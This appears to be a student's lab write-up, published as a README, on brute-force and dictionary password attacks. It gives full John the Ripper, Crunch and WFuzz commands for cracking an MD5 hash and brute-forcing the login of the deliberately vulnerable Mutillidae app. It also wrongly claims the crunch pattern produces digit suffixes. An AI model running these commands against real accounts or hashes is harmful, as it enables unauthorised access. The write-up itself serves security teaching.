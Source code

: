 # 🔐 Project 3: Brute Force & Dictionary Attacks

---

## 📘 About the Project

This project explores the execution and impact of **brute force** and **dictionary attacks**, two common password-cracking techniques used in cybersecurity. Used real penetration testing tools to simulate these attacks and highlight the risks of weak passwords and poor system configuration.

Focus was on:
- Using **John the Ripper** to crack hashed passwords
- Employing **Crunch** to generate password lists
- Using **WFuzz** to brute-force a login form on a vulnerable web application

---

## 🧪 Tools Used

| Tool            | Purpose |
|------------------|---------|
| **John the Ripper** | Cracking password hashes using brute force and dictionary attacks |
| **Crunch** | Generating custom password lists with user-defined patterns |
| **WFuzz** | Fuzzing login forms with password lists to find valid credentials |

---

## 🔍 Part 1: Cracking Passwords with John the Ripper

### 🛠️ Environment Setup
```bash
sudo apt update
sudo apt install john
```
### 🔑 Steps
Generate a hashed password

``` bash
Copy
Edit
openssl passwd -1 password1234
```
Create a simulated /etc/shadow file
shadow1a.txt contains the MD5-hashed password

Create a simulated /etc/passwd file
passwd1a.txt contains user info

Merge files with unshadow

```bash
Copy
Edit
unshadow passwd1a.txt shadow1a.txt > hashes1a.txt
Create a dictionary wordlist

```

``` bash
Copy
Edit
echo -e "123456\npassword\nroot\nadmin\npassword123\npassword1234" > testlist1a.txt
Run John the Ripper

```

``` bash
Copy
Edit
john --format=md5crypt --wordlist=testlist1a.txt hashes1a.txt
Display cracked password(s)

```

``` bash
Copy
Edit
john --show hashes1a.txt

```

✅ John successfully cracked the hash for password1234.

### 🔍 Part 2: Brute Force with WFuzz & Crunch
🛠️ Environment Setup
``` bash
Copy
Edit
sudo apt update
sudo apt install wfuzz
sudo apt install crunch

``` 
### 🌐 Target
Vulnerable web app: Mutillidae on Metasploitable VM

Login form URL:
http://192.168.121.131/mutillidae/index.php?page=login.php

###🔐 Step-by-Step
1. Generate a password list with Crunch
bash
Copy
Edit
crunch 9 9 -t admin@@@@ > password.lst
Generates combinations like admin0000 to admin9999

We inserted the real password adminpass near the top for demo purposes

### 2. Run WFuzz attack
```bash
Copy
Edit
wfuzz -z file,/root/password.lst -d "username=admin&password=FUZZ&login-php-submit-button=Login" http://192.168.121.131/mutillidae/index.php?page=login.php
WFuzz iterates through all passwords in password.lst
```
Correct password adminpass was successfully identified

### 3. Verify Login
Visited the login URL in a browser

Used:

Username: admin

Password: adminpass

✅ Login was successful

### 🔚 Conclusion
Brute Force attacks try all possible combinations; Dictionary attacks are faster using pre-built lists.

Tools like Crunch, John the Ripper, and WFuzz are powerful for demonstrating password security flaws.

This project emphasizes the importance of:

Strong password policies

Rate limiting and account lockout features

Using hashed and salted passwords with modern algorithms (e.g., bcrypt)
